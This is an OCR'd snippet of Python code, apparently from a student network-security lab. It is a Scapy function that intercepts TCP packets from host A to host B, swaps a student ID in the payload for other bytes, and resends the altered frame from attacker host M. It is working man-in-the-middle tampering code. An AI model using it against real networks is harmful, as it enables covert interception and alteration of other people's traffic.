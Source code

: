     def spoof_pkt(pkt):
        # Ensure it's an IP packet containing TCP
        if not (IP in pkt and TCP in pkt):
            return

        try:
            if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
                print("-> Processing packet from A to B", end='')
                sys.stdout.flush()
                # Create a new IP packet based on the captured one
                newpkt_ip = IP(bytes(pkt[IP]))
                del(newpkt_ip.chksum) # Delete IP checksum
                if TCP in newpkt_ip:
                    del(newpkt_ip[TCP].chksum) # Delete TCP checksum

                # Construct the new payload
                if pkt[TCP].payload:
                    data = pkt[TCP].payload.load # The original payload data
                    print(f" | Original data: {data.hex()} ({data.decode('utf-8', errors='ignore')})", end='')
                    # *** THE MODIFICATION ***
                    newdata = data.replace(student_id_bytes, replacement_bytes)
                    print(f" | Modified data: {newdata.hex()} ({newdata.decode('utf-8', errors='ignore')})", end='')
                    # Remove old payload before adding new one
                    if TCP in newpkt_ip and Raw in newpkt_ip[TCP]:
                        del(newpkt_ip[TCP].payload)
                    # Construct L3+ packet
                    newpkt_L3 = newpkt_ip/newdata
                else:
                    print(" | No TCP payload.", end='')
                    # Remove old payload if it existed but was empty? Safer to ensure it's gone.
                    if TCP in newpkt_ip and Raw in newpkt_ip[TCP]:
                       del(newpkt_ip[TCP].payload)
                    newpkt_L3 = newpkt_ip # Packet without payload

                # Create L2 frame and send
                newpkt_L2 = Ether(src=MAC_M, dst=MAC_B) / newpkt_L3
                sendp(newpkt_L2, iface='eth0', verbose=False)
                print(" | Sent M -> B")
                sys.stdout.flush()
